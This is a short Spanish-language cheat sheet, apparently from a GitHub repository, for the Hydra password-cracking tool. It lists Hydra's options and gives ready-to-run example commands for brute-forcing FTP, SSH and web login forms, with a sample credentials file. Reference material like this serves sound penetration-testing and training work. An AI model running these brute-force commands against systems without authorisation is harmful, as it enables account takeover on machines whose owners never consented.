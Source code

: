 # Hydra Cheat Sheet

## Opciones

- `-s <port>` : Si el servicio está en un puerto diferente por default.
- `-l` : Especificar un usuario.
- `-L <userfile>` : Leer de un archivo listado de usuarios.
- `-p` : Especificar un password.
- `-P <passwordfile>` : Leer de un archivo listado de passwords.
- `-t <#tasks>`: Número de conecciones en paralelo por objetivo.
- `-M <targetsfile>` : Leer de un archivo listado de objetivos.
- `-o <file>` : Guargar el resultado en un archivo.
- `-vV` : Modo verbose, mostrando el inicio de sesión+contraseña para cada intento

## Ejemplos

#### Cracking con Brute Force en FTP Server
```
hydra -t 1 -l admin -P <path-to-password.lst> -vV <IPaddress> ftp
```

#### Cracking con Brute Force en SSH Server
```
hydra -l msfadmin -P <path-to-password.lst> -vV <IPaddress> ssh
```

#### Cracking con Brute Force en WEB Login Server
```
hydra -l none -P <path-to-password.lst> <IPaddress> https-form-post "/db/index.php:password=^PASS^&login=Log+In&proc_login=true:Incorrect password" -t 64
```

#### Cracking con Brute Force en WEB Login Server, enviando 'usuario:password'
```
hydra -C credentials.txt <IPaddress> https-form-post "/login.php:username=^USER^&password=^PASS^:F=Login failed"

Archivo credentials.txt:
albert:password
juan:mypassword
beto:qwerty
.
.
.
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)